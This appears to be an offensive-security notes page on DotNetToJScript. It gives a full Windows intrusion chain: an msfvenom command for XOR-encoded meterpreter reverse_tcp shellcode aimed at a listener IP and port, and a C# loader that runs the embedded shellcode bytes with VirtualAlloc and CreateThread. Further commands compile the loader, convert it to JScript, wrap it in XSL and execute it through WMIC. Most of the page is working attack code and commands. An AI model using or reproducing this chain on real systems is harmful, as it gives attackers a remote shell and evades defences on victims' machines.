

# DotNetToJScript

## DotNetToJScript

DotNetToJScript can be used to serialize C\# assembly into a different language \(JScript, VBA, VBscript\)

* **Require a TestClass class name and a TestClass method**

```text
public class TestClass
{

    public TestClass()
    {
        /* start whatever you want */
        Process.Start("notepad.exe");
    }
}
```

#### Usage 

Compile a malicious dll file using the following .cs file \(keep the namespace name\)

### Create a obfuscated shellcode 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.0.61 LPORT=9001 --encoder x86/xor_dynamic -f csharp`

```text
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;


namespace PoloTest
{
    public class Program
    {
        public Program()
        {
            Main();
        }

        static void Main()
        {

           byte[] buf = new byte[387] {0xeb,0x23,0x5b,0x89,0xdf,0xb0,0xd2,0xfc,0xae,0x75,0xfd,0x89,0xf9,0x89,0xde,0x8a,0x06,0x30,0x07,0x47,0x66,0x81,0x3f,0xf4,0xa8,0x74,0x08,0x46,0x80,0x3e,0xd2,0x75,0xee,0xeb,0xea,0xff,0xe1,0xe8,0xd8,0xff,0xff,0xff,0x13,0xd2,0xef,0xfb,0x91,0x13,0x13,0x13,0x73,0x9a,0xf6,0x22,0xd3,0x77,0x98,0x43,0x23,0x98,0x41,0x1f,0x98,0x41,0x07,0x98,0x61,0x3b,0x1c,0xa4,0x59,0x35,0x22,0xec,0xbf,0x2f,0x72,0x6f,0x11,0x3f,0x33,0xd2,0xdc,0x1e,0x12,0xd4,0xf1,0xe1,0x41,0x44,0x98,0x41,0x03,0x98,0x59,0x2f,0x98,0x5f,0x02,0x6b,0xf0,0x5b,0x12,0xc2,0x42,0x98,0x4a,0x33,0x12,0xc0,0x98,0x5a,0x0b,0xf0,0x29,0x5a,0x98,0x27,0x98,0x12,0xc5,0x22,0xec,0xbf,0xd2,0xdc,0x1e,0x12,0xd4,0x2b,0xf3,0x66,0xe5,0x10,0x6e,0xeb,0x28,0x6e,0x37,0x66,0xf7,0x4b,0x98,0x4b,0x37,0x12,0xc0,0x75,0x98,0x1f,0x58,0x98,0x4b,0x0f,0x12,0xc0,0x98,0x17,0x98,0x12,0xc3,0x9a,0x57,0x37,0x37,0x48,0x48,0x72,0x4a,0x49,0x42,0xec,0xf3,0x4c,0x4c,0x49,0x98,0x01,0xf8,0x9e,0x4e,0x7b,0x20,0x21,0x13,0x13,0x7b,0x64,0x60,0x21,0x4c,0x47,0x7b,0x5f,0x64,0x35,0x14,0x9a,0xfb,0xec,0xc3,0xab,0x83,0x12,0x13,0x13,0x3a,0xd7,0x47,0x43,0x7b,0x3a,0x93,0x78,0x13,0xec,0xc6,0x79,0x19,0x7b,0x19,0x7d,0x13,0x2e,0x7b,0x11,0x13,0x30,0x3a,0x9a,0xf5,0x43,0x43,0x43,0x43,0x53,0x43,0x53,0x43,0x7b,0xf9,0x1c,0xcc,0xf3,0xec,0xc6,0x84,0x79,0x03,0x45,0x44,0x7b,0x8a,0xb6,0x67,0x72,0xec,0xc6,0x96,0xd3,0x67,0x19,0xec,0x5d,0x1b,0x66,0xff,0xfb,0x74,0x13,0x13,0x13,0x79,0x13,0x79,0x17,0x45,0x44,0x7b,0x11,0xca,0xdb,0x4c,0xec,0xc6,0x90,0xeb,0x13,0x6d,0x25,0x98,0x25,0x79,0x53,0x7b,0x13,0x03,0x13,0x13,0x45,0x79,0x13,0x7b,0x4b,0xb7,0x40,0xf6,0xec,0xc6,0x80,0x40,0x79,0x13,0x45,0x40,0x44,0x7b,0x11,0xca,0xdb,0x4c,0xec,0xc6,0x90,0xeb,0x13,0x6e,0x3b,0x4b,0x7b,0x13,0x53,0x13,0x13,0x79,0x13,0x43,0x7b,0x18,0x3c,0x1c,0x23,0xec,0xc6,0x44,0x7b,0x66,0x7d,0x5e,0x72,0xec,0xc6,0x4d,0x4d,0xec,0x1f,0x37,0x1c,0x96,0x63,0xec,0xec,0xec,0xfa,0x88,0xec,0xec,0xec,0x12,0xd0,0x3a,0xd5,0x66,0xd2,0xd0,0xa8,0xe3,0xa6,0xb1,0x45,0x79,0x13,0x40,0xec,0xc6,0xf4,0xa8 };


            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length,
                                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            // prepare data

            IntPtr pinfo = IntPtr.Zero;

            // execute native code

            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;

        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
             UInt32 size, UInt32 flAllocationType, UInt32 flProtect);


        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(

          UInt32 lpThreadAttributes,
          UInt32 dwStackSize,
          UInt32 lpStartAddress,
          IntPtr param,
          UInt32 dwCreationFlags,
          ref UInt32 lpThreadId

          );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(

          IntPtr hHandle,
          UInt32 dwMilliseconds
          );
    }
}
```

### Create a malicious DLL using our csharp shellcode

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /target:library /platform:x64 .\shell.cs`

### **Use DotNetToJscript to convert  the cs file to jscript**

`.\DotNetToJScript.exe -l JScript -ver auto -c PoloTest.Program -o shell.txt ..\shell.dll`

### Copy the shell.txt file content into the xsl template file

`DotNetToJScript.exe -l JScript -ver auto -c PoloTest.Program -o csharshell.txt Csharpshell.dll`

### Copy the content into a xsl file



### Execute the payload using wmic 32bit version 

`C:\Windows\SysWOW64\wbem\WMIC.exe process get /format:2.xsl`

## Resources




